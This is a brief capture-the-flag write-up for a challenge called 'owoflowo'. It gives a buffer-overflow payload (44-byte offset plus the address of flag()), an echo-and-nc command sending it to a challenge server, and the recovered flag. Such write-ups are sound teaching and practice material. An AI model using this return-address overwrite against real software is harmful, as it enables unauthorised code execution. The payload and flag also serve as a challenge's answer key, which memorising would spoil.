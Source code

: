 # owoflowo
## Problem Statement

Owo mmy flowo.

## Solution

Payload:

- `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA` (offset of 44)
- `\xcb\x85\x04\x08` (address of `flag()`)


```sh
echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xcb\x85\x04\x08' | nc 0.cloud.chals.io 27049
```

Flag: `flag{0w0_my_fLoWo_my_ow0}`
